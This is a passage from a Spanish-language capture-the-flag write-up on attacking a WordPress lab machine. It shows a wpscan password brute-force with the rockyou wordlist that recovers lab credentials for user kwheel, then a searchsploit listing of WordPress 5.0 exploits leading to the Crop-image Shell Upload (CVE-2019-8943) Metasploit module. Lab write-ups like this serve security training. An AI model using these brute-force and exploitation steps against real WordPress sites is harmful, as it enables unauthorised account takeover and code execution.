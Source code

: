 Tras obtener los resultados de la enumeración, descubrimos la existencia de varios usuarios. Luego, realizamos un proceso de fuerza bruta utilizando el usuario "**kwheel**" y conseguimos obtener credenciales válidas.

```bash
❯ wpscan --url http://10.10.84.224/ -U kwheel -P /usr/share/wordlists/rockyou.txt

[...]

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / cutiepie1                                                                                                                                                        
Trying kwheel / westham Time: 00:05:41 <                                                                                                     > (2865 / 14347257)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: kwheel, Password: cutiepie1

[...]
```

Dado que hemos obtenido credenciales válidas, procedemos a utilizarlas para acceder al panel de inicio de sesión de WordPress.

![dashboard](dashboard.png)

### Crop-image Shell Upload (CVE-2019-8943)

Ya que conocemos la versión de WordPress, utilizamos la herramienta "**searchsploit**" para buscar posibles vulnerabilidades relacionadas con esa versión específica.

```bash
❯ searchsploit WordPress 5.0
---------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                      |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
NEX-Forms WordPress plugin < 7.9.7 - Authenticated SQLi                                                                                             | php/webapps/51042.txt
WordPress 5.0.0 - Image Remote Code Execution                                                                                                       | php/webapps/49512.py
WordPress Core 5.0 - Remote Code Execution                                                                                                          | php/webapps/46511.js
WordPress Core 5.0.0 - Crop-image Shell Upload (Metasploit)                                                                                         | php/remote/46662.rb

[...]
```

El resultado revela una vulnerabilidad denominada "**Crop-image Shell Upload**", la cual puede ser explotada utilizando Metasploit. A continuación, procedemos a ejecutar Metasploit y buscar el módulo necesario para aprovechar esta vulnerabilidad.
